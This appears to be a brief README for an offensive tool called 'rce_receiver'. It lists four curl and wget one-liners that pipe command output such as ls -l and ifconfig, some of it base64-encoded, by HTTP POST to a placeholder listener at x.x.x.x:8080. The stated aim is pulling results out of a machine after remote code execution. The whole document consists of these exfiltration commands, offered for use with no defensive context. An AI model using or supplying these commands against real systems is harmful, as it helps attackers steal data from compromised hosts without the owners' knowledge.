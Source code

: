 # rce_receiver

### use curl or wget to transfer command output

`
ls -l | base64| curl -X POST -d @- http://x.x.x.x:8080/?b64=1
`

`
ls -l | curl -X POST -d @- http://x.x.x.x:8080/
`

`
wget --method=POST --body-data="$(ifconfig | base64)" "http://x.x.x.x:8080/?b64=1"
`

`
wget --method=POST --body-data="$(ifconfig)" "http://x.x.x.x:8080/
`
